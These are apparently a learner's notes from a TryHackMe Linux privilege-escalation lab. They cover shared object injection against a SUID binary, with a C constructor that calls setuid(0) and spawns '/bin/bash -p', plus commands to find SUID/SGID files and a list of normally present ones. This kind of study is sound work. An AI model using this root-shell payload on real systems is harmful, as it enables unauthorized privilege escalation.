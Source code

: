 
### Shared Object Injection
https://tryhackme.com/r/room/linuxprivesc Task 12
If we have suid root perms on a file that req a library that we can "modify", path "fix"

find by:
`strace /usr/local/bin/suid-so 2>&1 | grep -iE "open|access|no such file"`

```c
#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));

void inject() {
        setuid(0);
        system("/bin/bash -p");
}
```

`gcc -shared -fPIC -o /home/user/.config/libcalc.so /home/user/tools/suid/libcalc.c`






---

	Find SUID binaries
		`find / -perm -u=s -type f 2>/dev/null`
	Find SGID binaries
		`find / -perm -g=s -type f 2>/dev/null`
	Both - test this one more
		`find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null`

---

thm:

The maximum number of bit that can be used to set permission for each user is 7, which is a combination of read (4) write (2) and execute (1) operation. For example, if you set permissions using **"chmod"** as **755**, then it will be: rwxr-xr-x.

  
But when special permission is given to each user it becomes SUID or SGID. When extra bit **“4”** is set to user(Owner) it becomes **SUID** (Set user ID) and when bit **“2”** is set to group it becomes **SGID** (Set Group ID).  

Therefore, the permissions to look for when looking for SUID is:

SUID:

rws-rwx-rwx

GUID:

rwx-rws-rwx  

**Finding SUID Binaries**  

We already know that there is SUID capable files on the system, thanks to our LinEnum scan. However, if we want to do this manually we can use the command: **"find / -perm -u=s -type f 2>/dev/null"** to search the file system for SUID/GUID files. Let's break down this command.

**find** - Initiates the "find" command  

**/** - Searches the whole file system  

**-perm** - searches for files with specific permissions  

**-u=s** - Any of the permission bits _mode_ are set for the file. Symbolic modes are accepted in this form

**-type f** - Only search for files  

**2>/dev/null** - Suppresses errors














### normal SUID

/bin/su
/usr/bin/sudo

/bin/ping
/bin/mount
/bin/umount
/bin/fusermount

/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/newuidmap
/usr/bin/newgidmap
/usr/bin/newgrp

/usr/lib/openssh/ssh-keysign

/usr/bin/at     # unless it's RTru64 linux, in which case CVE-2002-1614


### normal SGID

/usr/bin/ssh-agent
/usr/bin/chage
/usr/bin/expiry
/usr/bin/mlocate
/usr/bin/wall
/usr/bin/bsd-write
/usr/bin/crontab
/usr/bin/at
/usr/lib/x86_64-linux-gnu/utempter/utempter
/sbin/unix_chkpwd
/sbin/pam_extrausers_chkpwd

